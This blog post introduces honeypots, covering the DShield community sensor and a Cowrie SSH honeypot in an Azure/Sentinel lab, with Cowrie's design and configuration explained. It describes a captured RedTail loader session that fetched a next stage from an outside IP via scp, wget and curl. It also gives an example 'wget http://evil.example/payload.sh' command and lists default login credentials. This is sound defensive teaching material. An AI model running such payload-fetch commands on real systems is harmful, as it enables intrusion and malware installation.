


## Five minutes is all it takes

Here is an experiment you can run at home, if you enjoy being mildly horrified: rent a cheap virtual machine, open inbound TCP port 22 to the internet, and count the seconds before the first login attempt arrives.

It is not minutes. It is often seconds. The traffic is fully automated: botnets sweep the entire address space for SSH and Telnet banners, replay credentials harvested from other breaches, and run a short scripted playbook on anything that lets them in. Most defenders hear this and think: *I must keep them out.* A smaller group hears it and thinks: *wait, they'll tell me exactly who they are, what they want, and how they work?*

That second group builds honeypots. This series covers two of mine: a DShield community sensor, and a Cowrie honeypot wired into Microsoft Sentinel. This part is the foundation: what a honeypot actually is, how the DShield sensor works, and how Cowrie fakes an entire Linux machine in Python.

## A machine whose value lies in being attacked

The Honeynet Project's definition is the blunt one: a honeypot is a security resource whose value lies in being probed, attacked, or compromised. Every other machine in your environment is valuable because it does work. The honeypot is valuable because it does nothing: no users, no services anyone needs, no reason for legitimate traffic to touch it.

That is the superpower. A firewall alert might mean anything, an IDS signature might be a false positive, but a connection to a honeypot has *no legitimate explanation*. Every packet it receives is signal.

By purpose, honeypots split in two:

- **Production** honeypots sit inside an estate as tripwires. Thinkst Canary and OpenCanary run canary versions of common services and alert on any contact. Low effort, high signal.
- **Research** honeypots face the open internet and collect: attacker tooling, credentials, malware. Their output is a dataset, not an alert.

By implementation, they fall on an interaction spectrum:

| Level | What runs | Examples | Captured | Risk and cost |
|---|---|---|---|---|
| Low | Protocol or banner emulation only | Dionaea, honeyd, OpenCanary | Source IPs, ports, payloads aimed at emulated services | Minimal risk, minimal detail |
| Medium | A full application surface emulated in software | Cowrie (shell mode), Kippo, Conpot | Complete session transcripts: credentials, commands, downloads | Low risk, high detail |
| High | A real OS in a controlled sandbox | Cowrie proxy mode with QEMU backends, honeywalls | Everything, on a genuinely vulnerable machine | Real risk, real operational cost |

## The honeypot as a community instrument: DShield

Before the Cowrie lab, I ran a very different kind of honeypot, and it teaches a different lesson about what honeypots are for. The DShield Honeypot is the official sensor of the SANS Internet Storm Center, the volunteer organization behind dshield.org and the daily ISC handler diaries. For over two decades DShield has collected firewall logs from volunteers worldwide and aggregated them into an internet-wide picture: which ports get scanned the most, which source networks are the noisiest, how attack patterns shift. That picture feeds the ISC infocon and the handlers' diary write-ups.

The sensor is low interaction by design, and its `install.sh` turns a dedicated machine (a Raspberry Pi or a cheap VM) into both a deception surface and a pipeline:

1. Enables firewall logging of essentially all inbound connections, so scans that never reach a honeypot service are recorded to `/var/log/dshield.log`.
2. Moves the host's real SSH daemon to port 12222, out of the scanners' path.
3. Installs Cowrie on the standard SSH and Telnet ports to collect usernames, passwords, and session activity.
4. Installs the `isc_agent` HTTP honeypot to capture full web requests.
5. Registers `/etc/cron.d/dshield`, which submits the logs to dshield.org every 30 minutes, authenticated with the API key from your free registration (configuration in `/etc/dshield.ini`, your own submissions visible in My Reports).

That last item is the identity of the thing: the consumer of the telemetry is not you. A DShield sensor is a research honeypot in its purest form, one pixel in the internet's weather map.

I know this from experience: my first honeypot was a DShield sensor on an Azure VM, and the community side worked from day one. So well, in fact, that when I retired the server after two days, an email arrived from the ISC Handlers with the subject "Is your DShield Honeypot Down?" ("Sorry, but I haven't seen any logs from your honeypot yesterday. Maybe it needs a reboot?"), signed by Johannes Ullrich, the project's founder, offering to fix whatever was wrong on his end. My logs had made it onto the internet's weather map, and the chief meteorologist had noticed the weather station disappear.



| | DShield sensor | Cowrie (shell mode) |
|---|---|---|
| Interaction | Low | Medium |
| Center of gravity | The submission pipeline to the community | The emulated world itself |
| Product | Aggregated internet-wide picture | The full transcript of each attack |
| Your benefit | Contribution, trends on your own IP | Your own threat intel and detections |

Part 2 is about the thing both of them need: a reliable path from honeypot to SIEM, and how badly a self-built one can fail while the community path works perfectly.

## Following one attacker through Cowrie

The best way to understand Cowrie is to walk through a session the way a bot does, because the entire design is organized around that same journey. Cowrie runs under Twisted, Python's event-driven networking framework: the whole "server" is a set of state machines, and nothing an attacker types ever becomes an OS process.




*This is not a demo: it is a real session captured by my lab, replayed with `playlog`. The visitor authenticated as `admin:admin`, confirmed the shell was live with a hex-encoded `auth_ok` handshake, skimmed `/etc/passwd`, probed `enable`/`system`/`shell` for escalation, then wrote an embedded ed25519 private key to `key.ppk` and tried `scp dlr@217.60.195.113:sh` to fetch its next stage, with a `wget`/`curl` fallback. The loader identifies itself at the end: hex-decoded, its success beacon reads `redtail_bot_telnet_ok`, matching the documented RedTail miner loader. Note the `phil:x:1000` user in `/etc/passwd`, Cowrie's Kippo-heritage fictional user, served from `honeyfs`. Nothing in the chain executed, and every keystroke was captured.*

### The handshake

A scanner connects to port 22. Cowrie's SSH transport, a `HoneyPotSSHTransport` extending Twisted Conch's server transport, answers with a version banner and negotiates encryption exactly as OpenSSH would, down to the KEXINIT packet format. Before any authentication, it is already taking notes: the client's software string (`cowrie.client.version`) and its full key-exchange proposal (`cowrie.client.kex`), from which Cowrie derives a HASSH fingerprint, a hash of the offered algorithms. Long before a password is typed, stock OpenSSH, a Go brute-force framework, and an IoT botnet's bundled library are distinguishable.

### The login

Credentials are checked against the `userdb.txt` policy with syntax `username:password`, where `!` prefixes a denial, `*` accepts anything, and `/pattern/i` is a case-insensitive regex. If no `userdb.txt` exists, these compiled-in defaults from `src/cowrie/core/auth.py` apply:

```text
root:x:!root
root:x:!123456
root:x:!/honeypot/i
root:x:*
phil:x:*
phil:x:fout
```

In other words: `root` accepts any password except the exact strings `root` and `123456`, plus anything matching `honeypot` case-insensitively (plain rules compare the whole password, only `/regex/` rules substring-search). No lockout, no rate limit. My lab ships no `userdb.txt`, so these defaults apply, and that choice turns out to matter a lot in Part 3. Cowrie also offers an `auth_random` mode that accepts only after 2 to 5 distinct attempts per source IP, approximating a real box's failure curve.

One thing to internalize here: a `cowrie.login.success` means *Cowrie* accepted the credentials. There is no account behind it. The success is part of the fiction.

### The shell that isn't

Now the attacker gets a prompt, and this is my favorite piece of Cowrie's design: the filesystem is fake in three layers.

- `src/cowrie/data/fs.pickle`: a snapshot of a Debian-shaped directory tree with full metadata (paths, uid, gid, sizes, permissions), rebuildable with `bin/createfs` and editable with `bin/fsctl`.
- `honeyfs/`: real file contents served when someone reads a path that exists in the tree (`cat /etc/passwd`, `cat /proc/cpuinfo`).
- `txtcmds/`: canned text for commands that only need to print something plausible.

A file is visible only where the pickle has metadata *and* content exists in `honeyfs` or `txtcmds`. Every visitor gets a private copy of the tree, deleted at logout: attackers cannot poison the environment for the next visitor, which is a real security property, and also (Part 3 again) one of Cowrie's most reliable tells.

Commands are Python `HoneyPotCommand` classes, roughly 60 modules in `src/cowrie/commands/`. Some fake output: `uname -a` assembles from config (`kernel_version = 6.1.0-21-amd64`, a Debian 12 build string by default), `ps` and `free` read bundled snapshots, `apt-get install` plays a canned transcript with randomized package versions and installs a binary that always segfaults, and `gcc` reports a hardcoded GCC 4.7.2 from 2012 regardless of the claimed 6.1 kernel. Others are semi-real in the useful way: when an attacker runs `wget http://evil.example/payload.sh`, Cowrie makes a *genuine* outbound HTTP connection, saves the payload in `var/lib/cowrie/downloads/` named by SHA-256, and emits `cowrie.session.file_download`. The honeypot is a lie, but the download is real: actual malware samples from actual campaigns.

### The receipts

Everything the attacker types, every keystroke, pipe, and `rm -rf`, is recorded to a UML-compatible TTY log in `var/lib/cowrie/tty/`, replayable like a movie with `bin/playlog`. The capture lifecycle emits `cowrie.log.open` and `cowrie.log.closed` with the capture size, `duration_ms`, and a `shasum` of attacker input. Meanwhile the structured event stream accumulates, every event tagged with a `session` id and `src_ip`:

| Event | Meaning |
|---|---|
| `session.connect` / `session.closed` | Client reached the listener, session ended (with `duration_ms`) |
| `client.version`, `client.kex` | Client software string, algorithm offers and HASSH |
| `login.failed` / `login.success` | Credential outcomes |
| `command.input` / `command.failed` | Shell commands and failures |
| `session.file_download` / `.file_upload` | Malware in and out, with `shasum` and `outfile` |

That stream is the product. A plain firewall log tells you who knocked. Cowrie's stream is the entire script of the visit.

## The lab's actual configuration

From `terraform/bootstrap.sh.tftpl` in [cowrie-sentinel-lab](https://github.com/edgseu/cowrie-sentinel-lab), Cowrie 3.0.0 runs as a non-root systemd service with:

```text
[honeypot]
hostname = srv01
download_limit_size = 1048576
ttylog = true
logtype = rotating

[ssh]
enabled = true
listen_endpoints = tcp:2222:interface=0.0.0.0
forwarding = false
forward_tunnel = false

[telnet]
enabled = true
listen_endpoints = tcp:2223:interface=0.0.0.0

[output_localsyslog]
enabled = true
facility = USER
format = cef
```

Note what is *not* set: the SSH wire banner (`version`), the cipher and MAC lists, `kernel_version`, and the in-shell `ssh -V` string. All of those fall back to the 3.0.0 defaults, and the defaults contain internal inconsistencies that Part 3 turns into a detection technique against my own lab.

The systemd unit runs as a dedicated `cowrie` user with `NoNewPrivileges`, `PrivateDevices`, `PrivateTmp`, `ProtectHome`, `ProtectSystem=full`, and `RestrictSUIDSGID` set. A `tmpfiles.d` rule enforces retention: 14 days for TTY logs, 7 days for captured malware. The bootstrap script purges its own build dependencies when it finishes.

## Why medium interaction is enough here

The overwhelming majority of public SSH/Telnet traffic is automated and runs that short playbook: `uname -a`, `cat /proc/cpuinfo`, verify `wget`, fetch a payload, run it, clean up. Medium interaction captures the full playbook in perfect detail with zero risk of the honeypot becoming a staging ground for attacks on someone else. The tradeoff is stated plainly: nothing persists, and a suspicious operator can test the environment. How my lab fares against those tests is exactly what Part 3 is about.

---

*Read Part 2: "From Fake Shell to Real Alert: Building a Cowrie Honeypot on Azure with Microsoft Sentinel", and find the labs at [github.com/edgseu/cowrie-sentinel-lab](https://github.com/edgseu/cowrie-sentinel-lab) and [github.com/edgseu/sentinel-dshield-honeypot-lab](https://github.com/edgseu/sentinel-dshield-honeypot-lab).*

